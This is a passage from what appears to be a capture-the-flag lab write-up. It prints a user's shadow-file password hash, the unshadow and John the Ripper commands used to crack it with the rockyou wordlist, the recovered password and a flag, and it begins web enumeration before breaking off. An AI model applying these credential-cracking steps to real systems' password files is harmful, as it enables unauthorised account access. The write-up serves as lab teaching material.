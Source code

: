 ```
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```
>  I grabbed the /etc/passwd file to use it with unshadow and join the files to a file that john the ripper can use to brute force the encrypted password using the hinted rockyou.txt wordlist.

```
unshadow passwd.txt shadow.bak > userpass.txt
john --wordlist=~/wordlists/rockyou.txt userpass.txt
john --list
```

> The seis password is:
```
Hogwarts
```

### Seis
> Su'ing in the seis user and grabbing flag6.txt:
```
flag6{779a25}
```
> The readme.txt points to another web application on the path /shellcmsdashboard. 

![web app](images/web_app.png)

> I always do manual basic enumeration on web applications such as checking for a misconfigured .git folder to reconstruct codebase and trying to get .htaccess as well as robots.txt. The last one worked and had the following contents:
